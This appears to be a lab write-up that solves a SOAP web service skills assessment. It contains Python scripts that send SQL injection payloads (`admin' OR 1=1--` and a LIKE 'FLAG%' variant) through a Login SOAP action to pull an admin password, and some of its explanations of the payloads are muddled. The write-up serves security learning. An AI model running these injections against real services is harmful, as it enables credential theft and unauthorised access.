 # Skills Assessment

#### Our client tasks us with assessing a SOAP web service whose WSDL file resides at `http://<TARGET IP>:3002/wsdl?wsdl`.

#### Assess the target, identify an SQL Injection vulnerability through SOAP messages and answer the question below.

#### Submit the password of the user that has a username of "admin". Answer format: FLAG{string}. Please note that the service will respond successfully only after submitting the proper SQLi payload, otherwise it will hang or throw an error.



The first step is to analyse carefully the WSDL file. We can retrieve the file with the command `curl http://SERVER_IP:PORT/wsdl?wsdl > wsdl.txt`. This way we can inspect carefully the WSDL file.

Then the next step is to find the correct `soapAction`.

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

There are only two `soapActions` in the file, so we identified the **Login** that is related to this skills assessment.

Then we'll take a look of it's parameters located in **LoginRequest** in the data types.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

And now we've identified the parameters **username** and **password**.

The next step is to make a python script to send our payload. This will be a very straightforward demonstration, since the application hangs when is not expecting the correct input.&#x20;

<pre class="language-python" data-overflow="wrap"><code class="lang-python"><strong>import requests
</strong>
payload = '&#x3C;?xml version="1.0" encoding="utf-8"?>&#x3C;soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/">&#x3C;soap:Body>&#x3C;LoginRequest xmlns="http://tempuri.org/">&#x3C;username>username&#x3C;/username>&#x3C;password>password&#x3C;/password>&#x3C;/LoginRequest>&#x3C;/soap:Body>&#x3C;/soap:Envelope>'

print(requests.post("http://SERVER_IP:PORT/wsdl", data=payload, headers={"SOAPAction":'"Login"'}).content)

</code></pre>

The SQLi payload we have to use is `admin' OR 1=1--`. In order to not break the script we have to add two aditional single quotes at the end and the beginning of the payload. Like this:

{% code overflow="wrap" %}
```python
import requests

payload = '''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>admin' OR 1=1--</username><password>password</password></LoginRequest></soap:Body></soap:Envelope>'''

print(requests.post("http://SERVER_IP:PORT/wsdl", data=payload, headers={"SOAPAction":'"Login"'}).content)
```
{% endcode %}

Let's send the payload to see if it works.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

And it looks we got something. We got a username and a hashed password string. Now that we our payload working, lets try to retrieve the flag. We will add `LIKE 'FLAG%'` to search for values that start with "FLAG".

{% code overflow="wrap" %}
```python
import requests

payload = '''<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><username>admin' OR 1=1 LIKE 'FLAG%' --</username><password>password</password></LoginRequest></soap:Body></soap:Envelope>'''

print(requests.post("http://SERVER_IP:PORT/wsdl", data=payload, headers={"SOAPAction":'"Login"'}).content)
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

And we founded it! \
This section was a totally new concept, since i never programmed any kind of web service. But it was fun to learn and to having a SQLi mix in this Skills Assessment.
